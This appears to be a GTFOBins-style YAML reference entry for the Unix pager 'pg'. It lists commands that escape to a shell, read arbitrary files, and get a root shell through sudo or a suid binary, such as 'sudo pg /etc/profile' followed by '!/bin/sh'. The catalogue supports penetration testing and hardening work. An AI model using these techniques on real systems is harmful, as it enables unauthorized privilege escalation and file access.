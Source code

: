 functions:
  shell:
    - code: |
        pg /etc/profile
        !/bin/sh
  file-read:
    - code: pg file_to_read
  sudo:
    - code: |
        sudo pg /etc/profile
        !/bin/sh
  suid:
    - code: ./pg file_to_read
---
